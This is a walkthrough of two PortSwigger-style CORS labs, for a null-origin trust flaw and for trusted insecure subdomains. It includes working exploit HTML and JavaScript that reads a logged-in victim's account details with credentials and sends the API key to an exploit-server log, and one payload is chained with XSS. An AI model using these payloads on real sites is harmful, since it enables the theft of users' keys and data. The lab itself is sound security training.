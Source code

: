 ### Lab: CORS vulnerability with trusted null origin

1.  With your browser proxying through Burp Suite, turn intercept off, log in to your account, and click "My account".
2.  Review the history and observe that your key is retrieved via an AJAX request to `/accountDetails`, and the response contains the `Access-Control-Allow-Credentials` header suggesting that it may support CORS.
3.  Send the request to Burp Repeater, and resubmit it with the added header `Origin: null.`
4.  Observe that the "null" origin is reflected in the `[Access-Control-Allow-Origin](https://portswigger.net/web-security/cors/access-control-allow-origin)` header.
5.  In your browser, go to the exploit server and enter the following HTML, replacing `$url` with the URL for your unique lab URL and `$exploit-server-url` with the exploit server URL  
    `<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>  
      var req = new XMLHttpRequest();  
      req.onload = reqListener;  
      req.open('get','$url/accountDetails',true);  
      req.withCredentials = true;  
      req.send();  
      function reqListener() {  
        location='$exploit-server-url/log?key='+encodeURIComponent(this.responseText);  
      };  
    </script>"></iframe>  
    `  
    Notice the use of an iframe sandbox as this generates a null origin request.
6.  Click "View exploit". Observe that the exploit works - you have landed on the log page and your API key is in the URL.
7.  Go back to the exploit server and click "Deliver exploit to victim".
8.  Click "Access log", retrieve and submit the victim's API key to complete the lab.

### Lab: CORS vulnerability with trusted insecure protocols

1.  With your browser proxying through Burp Suite, turn intercept off then log in and access your account page.
2.  Review the history and observe that your key is retrieved via an AJAX request to `/accountDetails`, and the response contains the `Access-Control-Allow-Credentials` header suggesting that it may support CORS.
3.  Send the request to Burp Repeater, and resubmit it with the added header `Origin: http://subdomain.lab-id` where `lab-id` is the lab domain name.
4.  Observe that the origin is reflected in the `[Access-Control-Allow-Origin](https://portswigger.net/web-security/cors/access-control-allow-origin)` header, confirming that the CORS configuration allows access from arbitrary subdomains, both HTTPS and HTTP.
5.  Open a product page, click "Check stock" and observe that it is loaded using a HTTP URL on a subdomain.
6.  Observe that the `productID` parameter is vulnerable to [XSS](https://portswigger.net/web-security/cross-site-scripting).
7.  In your browser, go to the exploit server and enter the following HTML, replacing `$your-lab-url` with your unique lab URL and `$exploit-server-url` with your exploit server URL:  
    `<script>  
       document.location="http://stock.$your-lab-url/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://$your-lab-url/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://$exploit-server-url/log?key='%2bthis.responseText; };%3c/script>&storeId=1"  
    </script>`
8.  Click "View exploit". Observe that the exploit works - you have landed on the log page and your API key is in the URL.
9.  Go back to the exploit server and click "Deliver exploit to victim".
10.  Click "Access log", retrieve and submit the victim's API key to complete the lab.
